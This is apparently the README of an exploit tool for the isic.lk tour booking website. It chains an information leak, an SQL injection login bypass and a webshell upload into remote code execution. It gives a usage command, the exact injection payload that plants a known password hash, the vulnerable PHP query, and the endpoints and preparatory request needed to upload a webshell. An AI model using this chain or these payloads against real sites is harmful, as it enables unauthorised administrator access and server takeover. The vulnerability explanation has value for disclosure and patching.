







# Usage

```
python exp.py http://localhost/isic
```



# ISIC RCE details

Multiple vulnerabilities in isic.lk tour booking website  (info leak / SQL Injection / file upload  ) lead to RCE. 

First we get website admin username with information disclosure vulnerability, then we use sqli to bypass login, and finally we upload a webshell to target's local system.

## 1.info leak

path: /system/user/modules/mod_users/controller.php

post param: action=view



now we get an account username 'admin'.

## 2.bypass login

we use sql injection to bypass login and make our PHPSESSION (in cookie) work.

path: /system/user/modules/mod_users/controller.php

post param: action=doLogin&username=admin' union select 1,2,3,4,5,6,'0192023a7bbd73250516f069df18b500',8,9 limit 1,1#&password=admin123



tips: in file '/system/user/modules/mod_users/helper.php' you will see the login logic like follow code :

```
      function selectByUsername() {
            $this->MDatabase->select($this->table_name, "*", "username='" . $this->username() . "'", "id DESC");
            return $this->MDatabase->result;
      }
```

and '/system/user/modules/mod_users/controller.php':



 It means we could not bypass login with something like `username=admin' and 1=1 -- - `, but we could use 'union select' to set password's md5 with function 'selectByUsername()' . Now we can bypass login based on the number of fields with 'user' table which we actually know , set the value of 'password' to some string's md5 that we know like 'admin123' , it will return `{"code":"200","msg":"Successfully Logged In. Please Wait..."}`.

## 3.upload webshell

For some reason, you need to make a request with '/system/application/libs/js/tinymce/plugins/filemanager/dialog.php?type=0&editor=mce_0&field_id=selected_file' otherwise the upload will fail. So we send a GET request :



Now upload webshell.

path: /system/application/libs/js/tinymce/plugins/filemanager/upload.php



check for success:


